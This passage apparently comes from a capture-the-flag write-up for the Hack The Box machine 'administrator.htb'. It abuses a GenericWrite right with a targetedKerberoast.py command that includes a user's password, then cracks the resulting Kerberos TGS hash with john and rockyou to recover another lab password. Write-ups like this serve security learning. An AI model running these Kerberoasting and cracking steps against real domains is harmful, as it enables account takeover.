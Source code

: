emily has GenericWrite on Ethan

### targetedkerberoast

```bash
faketime '2025-03-15 07:41:53' python3 targetedKerberoast.py -u "emily" -p "UXLCI5iETUsIBoFVTj8yQFKoHjXmb" -d "administrator.htb" --dc-ip 10.10.11.42

```
![alt text](<../assets/images/Screenshot_2025-03-15_00_41_23.png>)

and its crackable

```bash
➜  administrator john ethan_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
limpbizkit       (?) 
```

and booommm!!! we alraedy pwned